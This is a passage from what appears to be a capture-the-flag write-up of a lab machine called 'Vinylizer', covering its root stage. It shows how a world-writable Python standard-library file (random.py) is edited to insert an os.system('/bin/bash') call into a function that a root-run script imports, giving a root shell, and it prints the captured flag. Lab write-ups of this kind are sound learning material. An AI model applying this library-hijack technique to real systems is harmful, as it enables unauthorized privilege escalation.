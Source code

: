 There are two import. We can check if we are able to write in one of this libraries : 

```bash
shopadmin@vinylizer:/opt$ ls -la /usr/lib/python3.10/random.py 
-rwxrwxrwx 1 root root 33221 Nov 20  2023 /usr/lib/python3.10/random.py
shopadmin@vinylizer:/opt$
```

The ``random.py`` is writable so we can modify the source code of a function used in ``vinylizer.py``.

Add this line in the `choice` function : 
```python
def choice(self, seq):
        """Choose a random element from a non-empty sequence."""
        # raises IndexError if seq is empty
        _os.system("/bin/bash") # ADD THIS
        return seq[self._randbelow(len(seq))]
```

Save and execute : 

![root](../assets/img/Vinylizer/root.png)

We are root ! 

Go in ``/root`` folder read the flag : 
```bash
root@vinylizer:~# cat root.txt 
4UD10PH1L3
root@vinylizer:~#
```

## Conclusion

The user part was easy, like the root part. 

Thanks for reading ! 
